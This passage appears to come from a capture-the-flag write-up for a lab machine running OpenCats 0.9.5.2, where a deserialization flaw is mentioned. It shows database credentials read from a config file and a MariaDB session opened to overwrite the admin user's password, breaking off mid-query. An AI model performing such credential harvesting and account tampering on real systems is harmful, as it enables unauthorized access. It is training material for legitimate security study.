 Browsing to http://localhost:9000/ we see OpenCats website and version 0.9.5.2:
![](images/image7.png)

This version has a deserialization vulnerability, [CVE2021-25-294](https://www.cvedetails.com/cve/CVE-2021-25294/), that can lead to remote command execution. But we need to authenticate in the web application first.

### OpenCats database
We can find credentials for the website database looking at `/opt/opencats/config.php`:
```bash
/* Database configuration. */                                                                                                                               
define('DATABASE_USER', 'cats');                                                                                                                            
define('DATABASE_PASS', 'adm1r3r0fc4ts');                                                                                                                   
define('DATABASE_HOST', 'localhost');                                                                                                                       
define('DATABASE_NAME', 'cats_dev');
```

We can now access the database and update the `admin` password with our own.
```bash
jennifer@admirertoo:/opt/opencats$ mysql -u cats -p
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2926
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use cats_dev;
Database changed
MariaDB [cats_dev]> select * from user\G                                                           
*************************** 1. row ***************************                                                           
                  user_id: 1                                                                                             
                  site_id: 1                                                                                                                                
                user_name: admin                                                                                                                            
```